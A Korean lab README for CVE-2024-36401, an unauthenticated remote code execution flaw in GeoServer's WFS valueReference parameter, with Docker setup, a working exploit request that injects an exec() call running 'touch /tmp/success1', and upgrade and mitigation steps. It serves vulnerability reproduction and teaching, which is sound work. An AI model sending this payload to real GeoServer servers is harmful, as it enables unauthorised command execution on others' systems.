



\# CVE-2024-36401

> Contributor: dosham198


GeoServer 2.23.5 미만 버전에서 WFS/WMS 요청의 `valueReference` 파라미터가

XPath 표현식으로 안전하지 않게 평가되어, 인증 없이 원격 코드 실행(RCE)이

가능한 취약점이다. CVSS Score 9.8 (Critical).


\## 취약 조건


GeoServer 2.23.5 / 2.24.3 / 2.25.1 미만 버전에서 인증 없이

WFS GetPropertyValue 요청의 `valueReference` 파라미터를 통해

임의 명령 실행이 가능하다.


\## 환경 구성


```bash

docker compose up -d

```


GeoServer 2.23.2 (취약 버전) 컨테이너가 실행된다.

브라우저에서 `http://localhost:8080/geoserver` 접속 시 GeoServer 기본 페이지가 표시된다.





\## 취약점 재현


WFS GetPropertyValue 요청의 `valueReference` 파라미터에 `exec()` 표현식을 삽입한다.

인증 없이 서버에서 임의 명령을 실행할 수 있다.


```powershell

curl.exe "http://localhost:8080/geoserver/wfs?service=WFS\&version=2.0.0\&request=GetPropertyValue\&typeNames=sf:archsites\&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1')"

```


`ClassCastException` 응답이 반환되면 명령이 실행된 것이다.

`poc.py`로 자동 검증할 수 있다.


```bash

python poc.py

```





실행 후 컨테이너 내부에서 파일 생성을 확인한다.


```bash

docker compose exec web ls -l /tmp/

```


`/tmp/success1` 파일이 root 소유로 생성됐으면 RCE 성공이다.




\## 대응 방안


GeoServer를 2.23.5 이상, 2.24.3 이상, 2.25.1 이상으로 업그레이드한다.

업그레이드가 불가한 경우 `gt-complex-x.y.z.jar`를

`$GEOSERVER\_HOME/webapps/geoserver/WEB-INF/lib/`에서 제거한다.

GeoServer를 인터넷에 직접 노출하지 않는다.


\- https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv

\- https://nvd.nist.gov/vuln/detail/CVE-2024-36401

